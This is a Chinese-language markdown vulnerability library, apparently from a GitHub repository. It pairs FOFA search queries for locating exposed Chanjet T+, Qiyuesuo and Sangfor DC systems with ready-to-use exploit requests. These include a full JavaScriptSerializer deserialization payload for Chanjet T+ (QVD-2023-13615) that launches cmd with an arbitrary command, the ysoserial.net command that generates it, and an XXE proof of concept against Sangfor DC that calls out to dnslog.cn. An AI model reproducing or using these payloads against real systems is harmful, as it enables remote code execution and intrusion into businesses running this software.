 ## 这里就是漏洞库了

### 用友畅捷通T
- fofa语法：`app="畅捷通-TPlus"`

#### 畅捷通T+ 反序列化漏洞（QVD-2023-13615）

该漏洞属于.net反序列化场景中的 JavaScriptSerializer反序列化；

简介：在.NET处理 Ajax应用的时候，通常序列化功能由JavaSerializer类提供，它是.NET2.0之后内部实现的序列化功能的类，位于命名空间System.Web..Serialization、通过System.Web.Extensions引用，让开发者轻松实现.Net中所有类型和Json数据之间的转换，但在某些场景下开发者使用Deserialize 或DeserializeObject方法处理不安全的Json数据时会造成反序列化攻击从而实现远程RCE漏洞。

- POC
  ```
  POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
  Host: your-ip
  X-Ajaxpro-Method: GetStoreWarehouseByStore
  
  {
  "storeID":{}
  }
  ```

- PS:`X-Ajaxpro-Method`：用于指定在Ajax请求中要调用的服务器端方法的名称

![这是一张图片](/images/QVD-2023-13615/1.png)

- 出现这种情况，则存在漏洞  
  使用ysoserial.net工具构造payload（攻击链：ObjectDataProvider）

- `./ysoserial.exe -f JavaScriptSerializer -g ObjectDataProvider -c "执行的命令"`

  ![这是一张图片](/images/QVD-2023-13615/2.png)

- 将生成的序列化数据加载到PoC中（PS：需要将里面的单引号替换成双引号）

  ![这是一张图片](/images/QVD-2023-13615/3.png)

- exp：
  ```
  POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
  Host: your-ip
  X-Ajaxpro-Method: GetStoreWarehouseByStore

  {
  "storeID":{
      "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
      "MethodName":"Start",
      "ObjectInstance":{
          "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
          "StartInfo": {
              "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
              "FileName":"cmd", "Arguments":"/c 执行的命令"
          }
      }
  }
  }
  ```
  ![这是一张图片](/images/QVD-2023-13615/4.png)

  ![Alt text](/images/QVD-2023-13615/5.png)

- [相关链接](https://blog.csdn.net/qq_41904294/article/details/131350965)

------

### 契约锁

- fofa语法：`app="契约锁-电子签署平台"`

------

### 深信服 DC数据中心管理系统

- fofa语法：`app="SANGFOR-数据中心"`

#### 深信服数据中心管理系统 XXE漏洞

- POC
  ```
  POST /src/sangforindex HTTP/1.1
  Host: your-ip
  Content-Type: text/xml
  
  <?xml version="1.0" encoding="utf-8" ?>
  <!DOCTYPE root [
      <!ENTITY rt SYSTEM "http://dnslog.cn">
  ]>
  <xxx>
  &rt;
  </xxx>
  ```

- 验证

![Alt text](/images/深信服/1.png)

![Alt text](/images/深信服/2.png)

[相关链接](https://blog.csdn.net/qq_41904294/article/details/132310337)

------
